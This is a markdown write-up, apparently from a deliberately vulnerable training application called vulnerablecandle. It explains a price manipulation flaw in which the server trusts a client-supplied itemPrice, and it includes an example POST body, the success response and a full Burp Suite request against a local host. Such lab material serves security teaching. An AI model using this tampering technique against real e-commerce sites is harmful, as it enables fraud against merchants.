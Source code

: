 # Price Manipulation
Some e-commerce applications mistakenly accept the price of a product as a user input rather than use the database stored value.  vulnerablecandle possesses this vulnerability.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _POST /shoppingcarts/add/PRODUCTID/QUANTITY_

Price manipulation involves the Angular application sending an _itemPrice_ POST parameter that specifies the price used to purchase the candle at.  While this price is usually set as the database value, the attacker can manipulate it.  SpringBoot then uses this manipulated price throughout the checkout process.  Below is an exploitation example:

    POST /shoppingcarts/add/10/2
    raw:
    {
        "itemPrice" : 1.00
    }

Here we added two of the product with ID 10 (Cedar Candle) and stated the price of one Cedar candle as $1.00.  When the attacker later checks out their shoppingcart they will pay $2.00 for both candles.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Success"
    }

## Burp Suite Example Exploitation

    POST /shoppingcarts/add/10/2 HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 19
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: application/json
    X-XSRF-TOKEN: 877dd681-4a9f-41f0-ae74-d1ada25aab32
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=877dd681-4a9f-41f0-ae74-d1ada25aab32; JSESSIONID=1C77B365979B077008298700287FA604
    Connection: close

    {"itemPrice":1.00}


